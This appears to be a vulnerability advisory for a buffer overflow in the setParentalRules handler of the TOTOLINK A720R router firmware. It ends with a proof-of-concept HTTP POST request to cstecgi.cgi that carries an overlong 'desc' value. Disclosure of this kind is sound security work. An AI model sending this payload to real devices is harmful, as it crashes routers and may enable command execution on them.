




# Information


**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** A720R

**Affected firmware version:** V4.1.5cu.630_B20250509

**Firmware download address:** [TOTOLINK](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/203/ids/36.html)

# Overview

A critical buffer overflow vulnerability was found on the TOTOLINK A720R router due to strcpy(dest, src); The failure to perform the necessary boundary checks results in a buffer overflow vulnerability that allows an attacker to perform a denial-of-service attack or even arbitrary command execution by sending malicious HTTP POST packets

# Vulnerability details

When the request path is setParentalRules, the corresponding function sub_41AAD8



It can be found that there is a buffer overflow vulnerability here, but the precondition needs to be met and n2 is equal to 1, that is, the value of addEffect is 1



# POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.1/
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Fri, 30 Jun 2023 08:05:46 GMT
If-None-Match: "106164761"
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 378

{"topicurl":"setParentalRules",
"token":"2e2e7715039a8b744b974ba53c27537d"
"addEffect":"1",
"mac":"1234",
"desc":"aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac"
}
```



